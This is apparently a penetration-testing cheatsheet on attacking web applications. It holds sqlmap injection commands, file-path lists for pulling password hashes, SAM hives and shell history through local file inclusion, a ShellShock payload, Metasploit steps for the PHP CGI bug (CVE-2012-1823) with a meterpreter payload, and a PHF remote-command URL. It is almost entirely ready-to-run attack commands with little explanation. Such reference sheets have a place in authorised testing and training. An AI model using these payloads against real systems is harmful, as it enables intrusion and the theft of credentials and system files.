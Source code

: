 # Attacking Web Applications

## Burp Extentions


## SQL Injection


## SQLMap Cheatsheet
```
#GET Request Injection
sqlmap –cookie=”OV3176019645=7a1p0ilqfud0s0dhdf0p5pqog4″ –url=”http://10.xx.xx.73:8080/php/index.php?tg=site&idx=menusite&item=2&#8243; -p item –proxy=http://127.0.0.1:8081

#POST Request Injection
sqlmap -r sqlmap_request2 -p txtLoginID
```


## Exfiltrate Linux Files - Local File Inclusion
```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root

...log files
```

## Exfiltrate Windows Files - Local File Inclusion
```
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\repair\SAM
%WINDIR%\win.ini
%SYSTEMDRIVE%\boot.ini
%WINDIR%\Panther\sysprep.inf
%WINDIR%\system32\config\AppEvent.Evt
```

## PHP CGI-Bin Exploits

**Exploiting ShellShock via CGI-Bin**
<br/>
![Shell Shock via User-Agent Header](./img/SHELL_SHOCK.png)
```
() { :;}; echo $(</etc/passwd)
```

**Detect / Exploit PHP CGI Bug - [CVE-2012-1823]**
```
nmap -p 80, 8080, 443 --script http-cve2012-1823
msf> use exploit/multi/http/php_cgi_arg_injection
msf> set rhost [HOST_IP]
msf> set PAYLOAD php/meterpreter/bind_tcp
msf> exploit
```

**PHF CGI Remote Command Execution - [CVE-1999-0067]**
```
http://www.thesite.com/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd


```

